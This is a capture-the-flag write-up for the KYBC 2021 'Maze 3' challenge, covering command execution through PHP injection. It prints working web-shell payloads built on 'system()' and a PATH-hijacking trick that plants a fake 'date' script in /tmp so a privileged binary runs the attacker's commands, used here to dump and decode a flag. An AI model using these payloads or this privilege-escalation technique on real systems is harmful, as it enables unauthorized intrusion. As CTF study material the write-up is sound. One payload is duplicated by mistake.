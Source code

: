 Title: KYBC 2021 - Maze 3 Writeup
Date: 2021-03-24
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-3-writeup
Summary: Writeup for Maze 3 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 2]({filename}/ctf/kybc-yogosha-maze2.md) first_

Third maze, third user. Let's check what's in `home/ctf_user3`

```
<?php system('ls -al /home/ctf_user3'); ?>
```

It looks like ctf_user2 owns `image.txt` and `RAnd0m`. Hovewer, neither concatenating the content of `image.txt` nor running the `RAnd0m` executable bring anything useful.

Let's try to inspect the binary then with the good ol' `strings`

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

No luck. What about `od` then?

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```
Well that worked. Now I only need to figure out how to get out a proper hexdump from it. After a bit of digging, the `man` page comes to the rescue and provides with the syntax I need.

```
<?php system('echo "od -A x -t x1z -v /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Let's copy the hex dump into a txt file in my machine, recreate the binary and finally run `strings` on it

```
xxd -r -p rand.txt out.bin
strings out.bin
```

One of the strings seems to match the flag pattern `pvkq{dbiH._dy_pvkqH.E.H.U.H._wo_?}`.

Running it through a [ROT decoder](http://theblob.org/rot.cgi?) gives me `flag{tryX._to_flagX.U.X.K.X._me_?}`. Since the flag doesn't look too right and the system doesn't accept anyway, let's assume I probably messed up something while tinkering with `od` and manually fix it: `flag{try_to_flag_me_?}`.

